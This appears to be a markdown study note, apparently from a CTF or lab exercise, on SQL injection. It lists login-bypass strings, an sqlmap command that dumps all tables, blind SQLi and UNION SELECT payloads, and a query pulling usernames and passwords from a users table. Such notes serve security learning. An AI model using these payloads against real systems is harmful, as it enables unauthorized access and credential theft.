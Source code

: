 * `UNION SELECT` payloads
* Meaning of no error when finding useful data type
* Retrieving interesting data with SQLi UNION attack
* Common options for `SQLMap`
* Web Application Firewall
## Walkthroughs
Carry out a UNION SQLi attack:<br>
Find the number of columns, check if the columns are suitable and attack and get
some intereseting data.<br>
Run `sqlmap` with `BurpSuite`:<br>
Intercept requests on `BurpSuite`. Submit a request on the website. Right-click 
the request and press `Send to repeater`. Go to the `Repeater tab`, right-click 
the request and press `Save item`. Finally, use the request in `sqlmap`.
## Commands
Ways to bypass the login:
```
') or true-
' or true --
```
to insert in the username field.<br>
Find 
* the number of entries
* what Paul asked for
* the flag
* the admin password
```
python sqlmap.py -r ./request --dbms=sqlite --tamper=space2comment --dump-all
```
Select data/all from a database:
```
SELECT <data>
SELECT *
```
Specify which table to select or delete data from:
```
FROM <table>
```
Extract only those records fulfilling a specified condition:
```
WHERE <data><operator><value>
```
Combine the result or set of two or more SELECT statements:
```
UNION SELECT <...>
```
Blind SQLi payload:
```
?<parameter>=1' AND (ascii(substr((select database()), 1, 1))) = 115 --+
```
`ORDER BY` queries:
```
' ORDER BY 1-- ' ORDER BY 2-- ' ORDER BY 3-- # and so on until an error occurs 
```
`UNION SELECT` queries:
```
' UNION SELECT NULL-- ' UNION SELECT NULL,NULL-- ' UNION SELECT NULL,NULL,NULL-- # until the error occurs
```
Find columns with a useful data type:
```
' UNION SELECT 'a',NULL,NULL,NULL-- ' UNION SELECT NULL,'a',NULL,NULL-- ' UNION SELECT NULL,NULL,'a',NULL-- ' UNION SELECT NULL,NULL,NULL,'a'--
```
Retrieve the content of the user's table:
```
' UNION SELECT username, password FROM users --
```